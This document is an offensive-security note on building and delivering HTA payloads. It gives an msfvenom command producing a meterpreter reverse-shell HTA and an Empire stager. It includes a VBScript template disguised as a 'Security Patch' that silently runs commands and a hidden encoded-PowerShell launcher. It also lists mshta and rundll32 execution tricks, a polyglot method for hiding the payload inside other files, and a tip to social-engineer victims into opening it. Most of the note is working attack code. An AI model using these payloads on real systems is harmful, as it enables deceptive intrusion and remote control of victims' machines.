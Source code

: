 # HTA

## 01 - Generate Payloads

### 1.1 - `msfvenom`

> [!INFO] Payload's Limitation
> It couldn't handle a command execution that exceeded 8192 characters.. Check for more details about [[Command Prompt|command prompt]] (`cmd.exe`).
 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f hta-psh -o payload.hta
```

### 1.2 - Empire

```
(Empire) > usestager windows/launcher_hta
```

### 1.3 - HTA Templates

HTA payload template.

```html
<html>
	<head>
		<title>
			Security Patch
		</title>
	</head>
	<body>
		<p>Installing security patch...</p>
	</body>
	<script language="VBScript">
	Function Execute()
		Set shell = CreateObject("WScript.Shell")
		shell.Run "<commands>", 0
	End Function

	Execute
	</script>
</html>
```

This is a de-obfuscated format of `hta-psh` in `msfvenom`. Refer to this [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/Malware Development/Payload Execution/Command Execution/Execute Commands/Windows/WinAPI|section]] related to command execution using `powershell.exe`.

```html
<script language="VBScript">
  window.moveTo -4000, -4000
  Set Shell = CreateObject("WScript.Shell")
  Set Program = CreateObject("Scripting.FileSystemObject")
  For each path in Split(Shell.ExpandEnvironmentStrings("%PSModulePath%"),";")
    If Program.FileExists(path + "\..\powershell.exe") Then
      Shell.Run "powershell -nop -w hidden -e <base64_encoded_powershell_script>", 0
      Exit For
    End If
  Next
  window.close()
</script>
```

## 02 - Execute Payloads

> [!TIP] HTA Payloads
> You can actually social engineer the victim to double click the `.hta` to establish connection.

### 2.1 - `mshta.exe`

```
C:\> mshta.exe vbscript:Execute("MsgBox(""Would you like to update Windows?"", 64, ""Example"")(window.close)")

C:\> mshta.exe javascript:alert("Please Install Required Update")
```

To execute the payload.

```
C:\> mshta.exe %CD%\payload.hta

C:\> mshta.exe <drive_letter>:\absolute\path\to\payload.hta
```

### 2.2 - `rundll32.exe`

```
C:\> rundll32.exe url.dll,OpenURL "<drive_letter>:\absolute\path\to\payload.hta"

C:\> rundll32.exe url.dll,FileProtocolHandler "<drive_letter>:\absolute\path\to\payload.hta"

C:\> rundll32.exe url.dll,OpenURLA "<drive_letter>:\absolute\path\to\payload.hta"

C:\> rundll32.exe shdocvw.dll,OpenURL "<drive_letter>:\absolute\path\to\payload.hta"

C:\> rundll32.exe ieframe.dll,OpenURL "<drive_letter>:\absolute\path\to\payload.hta"
```

## 03 - Polyglot

> [!TIP]
> Feel free to experiment around binding any binary file format with `.hta` payload.

Bind the binary files together.

```
C:\> copy /y /b filename.extension+payload.hta hidden_payload.extension
```

It's also possible to do this in `wine`.

```
$ wine cmd.exe /y /c copy /b filename.extension+payload.hta hidden_payload.extension
```

Then execute it

```
C:\> mshta.exe %CD%\hidden_payload.extensions
```

---
## References

### Backlinks

- [[Rundll32]]

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Windows/Manual/Living off the Land]]

### LOLBAS

- [LOLBAS: Mshta](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)

### Red Team Notes

- [Red Team Notes: MSHTA](https://www.ired.team/offensive-security/code-execution/t1170-mshta-code-execution)

### DMCXBlue

- [DMCXBlue: MSHTA](https://dmcxblue.gitbook.io/red-team-notes/execution/mshta)

### Sevagas

- [Sevagas: Hacking around HTA files](https://blog.sevagas.com/?Hacking-around-HTA-files)
